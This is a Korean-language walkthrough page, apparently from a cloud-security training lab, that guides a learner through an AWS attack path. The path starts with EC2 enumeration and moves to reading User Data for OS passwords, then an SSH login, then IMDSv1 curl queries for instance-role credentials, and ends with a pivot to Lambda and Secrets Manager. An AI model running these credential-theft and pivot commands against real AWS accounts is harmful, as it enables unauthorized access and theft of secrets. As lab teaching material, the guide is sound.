

# 정보의 의미와 사용

[← 시나리오 본문](../README.md)

지금 출력은 “공격에 바로 쓰는 값”과 “다음 API를 조회하기 위한 식별자”가 섞여 있습니다. 클라우드 열거의 핵심은 출력에 나온 ID를 다음 명령의 입력값으로 연결하는 것입니다.

이번 `data_secrets`의 전체 흐름은 다음과 같습니다.

```
EC2 목록 조회
  → InstanceId로 User Data 조회
  → User Data에서 OS 계정 정보 발견
  → PublicIpAddress로 SSH 접속
  → EC2 내부에서 Instance Metadata 조회
  → IamInstanceProfile의 임시 AWS 권한 획득
  → 그 권한으로 Lambda 조사
  → Lambda에서 다음 AWS 자격 증명 발견
  → Secrets Manager에서 최종 플래그 조회
```

## 1. 현재 출력에서 중요한 정보

### `InstanceId`



EC2를 AWS API로 지정할 때 사용하는 식별자입니다.

다음 단계인 User Data 조회에 사용합니다.

```
aws ec2 describe-instance-attribute \
  --instance-id "i-로 시작하는 값" \
  --attribute userData \
  --profile start_user \
  --region us-east-1
```

### `PublicIpAddress`

```
"PublicIpAddress": "공인 IP"
```

인터넷에서 EC2에 접속할 때 사용하는 주소입니다.

나중에 다음 형태로 사용합니다.

```
ssh "User Data에서 발견한 사용자명"@"공인 IP"
```

### `PrivateIpAddress`

```
"PrivateIpAddress": "10.0.1.17"
```

VPC 내부에서 사용하는 주소입니다. 현재 WSL은 AWS VPC 내부에 있지 않으므로 직접 SSH할 때는 이 주소가 아니라 공인 IP를 사용합니다.

네트워크 관점에서 보면:

```
WSL → 인터넷 → EC2 공인 IP → ENI → EC2 사설 IP
```

구조입니다.

### `SecurityGroups`

```
"GroupId": "sg-..."
```

EC2의 가상 방화벽입니다. 현재 출력에는 보안 그룹 이름과 ID만 나오고 실제 허용 규칙은 나오지 않습니다.

규칙을 별도로 조회합니다.

```
aws ec2 describe-security-groups \
  --group-ids "sg-로 시작하는 값" \
  --profile start_user \
  --region us-east-1
```

여기서 확인할 것은:

- `IpProtocol`: `tcp`
- `FromPort`, `ToPort`: `22`
- `CidrIp`: 접속 허용 IP 대역

SSH 포트 22가 현재 공인 IP에 허용되어 있어야 접속할 수 있습니다.

### `IamInstanceProfile`

```
"IamInstanceProfile": {
  "Arn": "arn:aws:iam::...:instance-profile/..."
}
```

이 EC2에 IAM Role이 연결되어 있다는 표시입니다.

이 값 자체로 바로 로그인하는 것은 아닙니다. EC2 내부에서 Instance Metadata Service를 조회하면 이 Instance Profile에 연결된 Role의 임시 AWS 자격 증명을 받을 수 있습니다.

이번 시나리오에서 중요한 후반 피벗 지점입니다.

### `MetadataOptions`

```
"HttpTokens": "optional",
"HttpEndpoint": "enabled"
```

이것도 매우 중요한 정보입니다.

- `HttpEndpoint: enabled`: Instance Metadata Service가 활성화됨
- `HttpTokens: optional`: 토큰 없이 IMDSv1 방식으로 조회 가능

즉, EC2 안에 들어가면 다음 주소를 사용할 수 있다는 의미입니다.

```
http://169.254.169.254/latest/meta-data/
```

`169.254.169.254`는 일반 인터넷 주소가 아니라 EC2 내부에서만 접근 가능한 링크 로컬 메타데이터 주소입니다.

## 2. 지금 중요하지 않은 정보

현재 단계에서는 다음 정보의 우선순위가 낮습니다.

- `Architecture`
- `Hypervisor`
- `CpuOptions`
- `EbsOptimized`
- `VolumeId`
- `ClientToken`
- `MaintenanceOptions`
- `VirtualizationType`
- `ReservationId`

이 정보들도 운영이나 다른 공격에서는 중요할 수 있지만, 이번 시나리오의 설명과 연결되는 값은 아닙니다.

현재 우선순위는 다음 네 가지입니다.

```
InstanceId
PublicIpAddress
SecurityGroup
IamInstanceProfile / MetadataOptions
```

## 3. 첫 번째 연결: InstanceId → User Data

인스턴스 ID를 변수로 저장합니다.

```
INSTANCE_ID="출력에서 본 i-로 시작하는 값"
```

확인:

```
echo "$INSTANCE_ID"
```

User Data 조회:

```
aws ec2 describe-instance-attribute \
  --instance-id "$INSTANCE_ID" \
  --attribute userData \
  --profile start_user \
  --region us-east-1
```

결과의 `UserData.Value`는 Base64로 인코딩되어 있습니다.

디코딩까지 한 번에 하려면:

```
aws ec2 describe-instance-attribute \
  --instance-id "$INSTANCE_ID" \
  --attribute userData \
  --profile start_user \
  --region us-east-1 \
  --query 'UserData.Value' \
  --output text | base64 --decode
```

이번 `--query`는 복잡한 필터가 아닙니다.

```
UserData.Value
```

JSON의 다음 위치만 선택하라는 뜻입니다.

```
{
  "UserData": {
    "Value": "이 값"
  }
}
```

디코딩 결과는 일반적인 셸 스크립트일 가능성이 큽니다.

## 4. User Data에서 찾아야 하는 것

모든 줄이 중요한 것은 아닙니다. 다음 패턴을 찾으세요.

### 사용자 생성

```
useradd 사용자명
```

또는:

```
adduser 사용자명
```

이 사용자명이 SSH 로그인 이름 후보입니다.

### 비밀번호 설정

```
echo '사용자명:비밀번호' | chpasswd
```

이 구조가 나오면:

```
왼쪽: SSH 사용자명
오른쪽: SSH 비밀번호
```

입니다.

### SSH 비밀번호 인증 허용

다음과 비슷한 설정을 찾습니다.

```
PasswordAuthentication yes
```

이 설정이 있으면 SSH 키가 아니라 사용자명과 비밀번호로 로그인할 수 있다는 뜻입니다.

즉, User Data에서 선택할 정보는:

```
OS 사용자명
OS 비밀번호
SSH 비밀번호 인증 활성화 여부
```

입니다.

이것은 AWS Access Key가 아닙니다. EC2 Linux 운영체제에 로그인하기 위한 계정입니다.

## 5. 두 번째 연결: User Data 계정 + Public IP → SSH

공인 IP를 변수에 저장합니다.

```
PUBLIC_IP="describe-instances에서 본 공인 IP"
```

User Data에서 발견한 사용자명도 저장합니다.

```
SSH_USER="User Data에서 발견한 사용자명"
```

접속:

```
ssh "$SSH_USER@$PUBLIC_IP"
```

처음 접속하면 다음과 비슷한 메시지가 나옵니다.

```
Are you sure you want to continue connecting (yes/no/[fingerprint])?
```

`yes`를 입력합니다.

비밀번호를 물으면 User Data에서 발견한 OS 비밀번호를 입력합니다. 비밀번호는 입력해도 화면에 표시되지 않는 것이 정상입니다.

접속이 안 된다면 다음 순서로 확인합니다.

```
ping -c 2 "$PUBLIC_IP"
```

Ping은 보안 그룹에서 차단될 수 있으므로 실패해도 결정적이지 않습니다.

SSH 포트 확인:

```
nc -vz "$PUBLIC_IP" 22
```

상세 SSH 진단:

```
ssh -v "$SSH_USER@$PUBLIC_IP"
```

## 6. 세 번째 연결: EC2 내부 → Instance Metadata

SSH 접속에 성공하면 프롬프트가 로컬 WSL에서 원격 EC2로 바뀝니다.

현재 위치 확인:

```
whoami
hostname
ip addr
```

이제 EC2 내부에서 메타데이터 루트를 조회합니다.

```
curl http://169.254.169.254/latest/meta-data/
```

IAM Role 이름 조회:

```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

결과로 Role 이름 하나가 나올 것입니다.

```
어떤-role-name
```

Role 이름을 사용해 임시 자격 증명을 조회합니다.

```
ROLE_NAME="$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/)"
```

```
curl "http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME"
```

결과에는 보통 다음 정보가 나옵니다.

```
{
  "AccessKeyId": "...",
  "SecretAccessKey": "...",
  "Token": "...",
  "Expiration": "..."
}
```

이것은 처음 Bob이나 `start_user`에서 사용했던 키와 달리 임시 자격 증명입니다.

반드시 세 개를 한 세트로 사용해야 합니다.

```
AccessKeyId
SecretAccessKey
Token
```

`Token`을 빼면 `InvalidClientTokenId` 또는 유사한 인증 오류가 발생합니다.

이 값들도 채팅이나 GitHub에 올리지 마세요.

## 7. 왜 Instance Profile 자격 증명을 가져오는가?

현재 `start_user`는 EC2 조회와 User Data 읽기 정도만 허용되어 있습니다. 그래서 앞서 `iam:GetUser`도 거부됐습니다.

하지만 EC2에 연결된 Role은 다른 권한을 가지고 있습니다.

```
start_user 권한
≠
EC2 Instance Profile Role 권한
```

공격 흐름은 새로운 권한을 가진 신원으로 전환하는 것입니다.

```
start_user
  → User Data 유출
  → SSH
  → EC2 Role 임시 자격 증명
  → Lambda 조회 권한 획득
```

## 8. 정보를 선택하는 사고방식

출력을 볼 때 각 필드에 다음 질문을 적용하세요.

### 이 값이 다른 API의 입력값인가?

예:

```
InstanceId → describe-instance-attribute
GroupId → describe-security-groups
RoleName → IAM 또는 IMDS 자격 증명 조회
```

### 이 값이 접근 경로를 제공하는가?

예:

```
PublicIpAddress → 외부에서 SSH
PrivateIpAddress → VPC 내부에서 접근
Port 22 허용 → SSH 가능성
```

### 이 값이 다른 신원으로 전환할 가능성을 보여주는가?

예:

```
IamInstanceProfile → EC2에 Role 존재
MetadataOptions → Role 자격 증명 조회 가능성
```

### 이 값에 비밀정보가 저장될 가능성이 있는가?

예:

```
User Data
환경 변수
태그
Lambda 코드
Secrets Manager
```

이번 출력에서 실제 연결은 다음과 같습니다.

| 발견 정보 | 다음 행동 |
| --- | --- |
| `InstanceId` | User Data 조회 |
| `UserData.Value` | Base64 디코딩 |
| OS 사용자명·비밀번호 | SSH 로그인 |
| `PublicIpAddress` | SSH 대상 주소 |
| `SecurityGroupId` | 포트 22 허용 여부 확인 |
| `IamInstanceProfile` | EC2 내부에 Role이 있음을 판단 |
| `HttpTokens: optional` | IMDSv1로 메타데이터 조회 |
| Role 이름 | 임시 AWS 자격 증명 조회 |
| 임시 자격 증명 | Lambda 열거 |

지금 당장 해야 할 다음 단계는 `InstanceId`를 이용해 User Data를 조회하고, 디코딩된 스크립트에서 **Linux 사용자명과 비밀번호**를 찾아 공인 IP로 SSH 접속하는 것입니다.